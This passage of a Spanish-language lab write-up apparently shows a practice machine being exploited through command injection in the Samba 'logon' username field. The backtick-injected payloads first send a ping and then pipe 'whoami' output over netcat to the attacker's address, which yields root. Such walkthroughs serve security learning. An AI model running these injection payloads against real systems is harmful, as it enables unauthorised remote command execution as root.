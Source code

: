 Levantamos un **tcpdump** para capturar los paquetes lanzados por **traza ICMP**:
```bash
tcpdump -i tun0 icmp -n
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
```

Desde el **servidor Samba** mandamos la traza:
```bash
smb: \> logon "/=`nohup ping Tu_IP`"
Password: 
```

Resultado:
```bash
tcpdump -i tun0 icmp -n
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
14:31:22.510983 IP 10.10.10.3 > Tu_IP: ICMP echo request, id 58134, seq 1, length 64
14:31:22.510993 IP Tu_IP > 10.10.10.3: ICMP echo reply, id 58134, seq 1, length 64
14:31:23.517887 IP 10.10.10.3 > Tu_IP: ICMP echo request, id 58134, seq 2, length 64
14:31:23.517925 IP Tu_IP > 10.10.10.3: ICMP echo reply, id 58134, seq 2, length 64
14:31:24.516644 IP 10.10.10.3 > Tu_IP: ICMP echo request, id 58134, seq 3, length 64
14:31:24.516654 IP Tu_IP > 10.10.10.3: ICMP echo reply, id 58134, seq 3, length 64
14:31:25.516771 IP 10.10.10.3 > Tu_IP: ICMP echo request, id 58134, seq 4, length 64
14:31:25.516781 IP Tu_IP > 10.10.10.3: ICMP echo reply, id 58134, seq 4, length 64
^C
8 packets captured
8 packets received by filter
0 packets dropped by kernel
```

Esto quiere decir que si podemos inyectar comandos, hagamos otra prueba. Esta vez, alzaremos una **netcat** para probar si podemos conectar una **terminal bash**.
```bash
nc -lvnp 443           
listening on [any] 443 ...
```

Inyectando comando, desde la **sesión de Samba**:
```bash
smb: \> logon "/=`nohup whoami | nc Tu_IP 443`"
Password: 
```

Resultado en la **netcat**:
```bash
nc -lvnp 443           
listening on [any] 443 ...
connect to [Tu_IP] from (UNKNOWN) [10.10.10.3] 32800
root
```


<br>
<br>
<hr>
<div style="position: relative;">
	<h1 id="Post" style="text-align:center;">Post Explotación</h1>
</div>
<br>
